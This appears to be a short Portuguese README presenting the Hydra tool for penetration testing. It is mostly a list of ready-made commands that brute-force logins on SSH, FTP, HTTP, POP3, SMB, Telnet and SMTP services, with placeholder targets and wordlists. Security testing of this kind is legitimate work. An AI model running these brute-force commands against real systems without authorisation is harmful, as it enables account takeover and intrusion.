 # Hydra
Nesse repositório abordarei mais a respeito do Hydra, que é um software conhecido em segurança da informação e pentest. Não é exatamente uma ferramenta "hacker", mas sim uma ferramenta que pode ser usada por profissionais para testar a segurança de sistemas e redes e analisar suas vulnerabilidades.

Se você se conhece, mas não conhece o inimigo, para cada vitória ganha. sofrerá também uma derrota. - antigo proverbio chinês.

Nos comandos o “username” é o nome do usuário que você deseja atacar e “password_list.txt” é o nome do arquivo de lista de senhas que você deseja usar para o ataque. O “target_ip” é o endereço IP do servidor que você deseja atacar.


Força bruta em SSH

hydra -l username -P password_list.txt ssh://target_ip 

Força bruta em FTP:

hydra -l username -P password_list.txt ftp://target_ip  

Força bruta em HTTP:

hydra -L user_list.txt -P password_list.txt http://target_ip

Força Bruta em POP 3:

hydra -l username -P password_list.txt pop3://target_ip

Força Bruta em SMB:

hydra -l username -P password_list.txt smb://target_ip

Força Bruta em Telnet: 

hydra -l username -P password_list.txt telnet://target_ip

Força Bruta em SMTP:

hydra -l username -P password_list.txt smtp://target_ip
